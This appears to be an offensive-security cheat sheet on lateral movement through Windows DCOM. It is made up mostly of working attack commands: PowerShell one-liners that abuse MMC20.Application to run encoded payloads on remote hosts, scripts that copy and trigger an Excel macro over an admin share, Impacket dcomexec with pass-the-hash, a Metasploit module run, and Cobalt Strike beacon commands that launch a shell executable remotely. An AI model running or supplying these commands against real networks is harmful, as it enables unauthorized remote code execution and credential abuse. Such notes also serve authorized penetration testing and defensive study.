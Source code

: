 # Distributed Component Object Model (DCOM)

## 01 - Powershell

### 1.1 - MMC20.Application

```powershell
C:\> powershell -exec bypass -command "[activator]::CreateInstance([type]::GetTypeFromProgID('MMC20.Application', '<IP>')).Document.ActiveView.ExecuteShellCommand('C:\Windows\system32\WindowsPowerShell\v1.0\powershell.exe', $null, '-E <base64_payload>', '7')"

PS C:\> [activator]::CreateInstance([type]::GetTypeFromProgID('MMC20.Application', '<IP>')).Document.ActiveView.ExecuteShellCommand('C:\Windows\system32\WindowsPowerShell\v1.0\powershell.exe', $null, '-E <base64_payload>', '7')
```

### 1.2 - Excel.Application

```powershell
PS C:\> $com = [activator]::CreateInstance([type]::GetTypeFromProgId("Excel.Application", "<IP>"))
$com | Get-Member
```

`$ cat macro.vba`

---

```vbscript
Sub mymacro()
    'payload goes here
    Shell ("notepad.exe")
End Sub
```

`$ cat copyexceldcom.ps1`

---

```powershell
$com = [activator]::CreateInstance([type]::GetTypeFromProgId("Excel.Application", "<IP>"))

$LocalPath = "path\to\excelmacrofile.xls"

$RemotePath = "\\<IP>\C$\excelmacrofile.xls"

[System.IO.File]::Copy($LocalPath, $RemotePath, $True)
```

`$ cat openexceldcom.ps1`

---

```powershell
$com = [activator]::CreateInstance([type]::GetTypeFromProgId("Excel.Application", "<IP>"))

$LocalPath = "path\to\excelmacrofile.xls"

$RemotePath = "\\<IP>\C$\excelmacrofile.xls"

[System.IO.File]::Copy($LocalPath, $RemotePath, $True)

# When running as system adminstrator privileges
$Path = "\\<IP>\C$\Windows\sysWOW64\config\systemprofile\Desktop"

$temp = [System.IO.Directory]::CreateDirectory($Path)

$Workbook = $com.Workbooks.Open("C:\excelmacrofile.xls")

$com.Run("mymacro")
```

## 02 - Impacket

`$ dcomexec.py <username>:<password>@<IP>`

- Pass the Hash

`$ dcomexec.py -hashes aad3b435b51404eeaad3b435b51404ee:<NT> <username>@<IP>`

## 03 - Metasploit

```
msf > use auxiliary/scanner/smb/impacket/dcomexec

msf auxiliary(scanner/smb/impacket/dcomexec) > options

Module options (auxiliary/scanner/smb/impacket/dcomexec):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   COMMAND                     yes       The command to execute
   OBJECT     MMC20            yes       The DCOM object to use for execution (Accepted: ShellWindows, ShellBrowserWindow, MMC20)
   OUTPUT     true             yes       Get the output of the executed command
   RHOSTS                      yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   SMBDomain  .                no        The Windows domain to use for authentication
   SMBPass                     yes       The password for the specified username
   SMBUser                     yes       The username to authenticate as
   THREADS    1                yes       The number of concurrent threads (max one per host)

msf auxiliary(scanner/smb/impacket/dcomexec) > set command <commands>

msf auxiliary(scanner/smb/impacket/dcomexec) > set object <MMC20 | ShellBrowserWindow | ShellWindows>

msf auxiliary(scanner/smb/impacket/dcomexec) > set output true

msf auxiliary(scanner/smb/impacket/dcomexec) > set rhosts <target_IP>

msf auxiliary(scanner/smb/impacket/dcomexec) > set smbuser <username>

msf auxiliary(scanner/smb/impacket/dcomexec) > set smbpass <password>

msf auxiliary(scanner/smb/impacket/dcomexec) > set smbdomain <domain_name>

msf auxiliary(scanner/smb/impacket/dcomexec) > set threads 2

msf auxiliary(scanner/smb/impacket/dcomexec) > run
```

## 04 - Sliver

### 4.1 - Spawn Callback Shell

TODO: Show a step by step approach using SharpCOM via execute-assembly (see references)

## 05 - Cobalt Strike

### 5.1 - Spawn Callback Shell

TODO: Show a step by step approach using SharpCOM via execute-assembly (see references)

```
beacon> powershell-import Invoke-DCOM.ps1

beacon> powershell Invoke-DCOM -ComputerName <IP> -Method MMC20.Application -Command C:\path\to\shell.exe

beacon> powerpick Invoke-DCOM -ComputerName <IP> -Method MMC20.Application -Command C:\path\to\shell.exe

beacon> link <IP>
```

## References

- [Invoke-DCOM](https://github.com/BC-SECURITY/Empire/blob/main/empire/server/data/module_source/lateral_movement/Invoke-DCOM.ps1)

- [SharpCOM](https://github.com/rvrsh3ll/SharpCOM)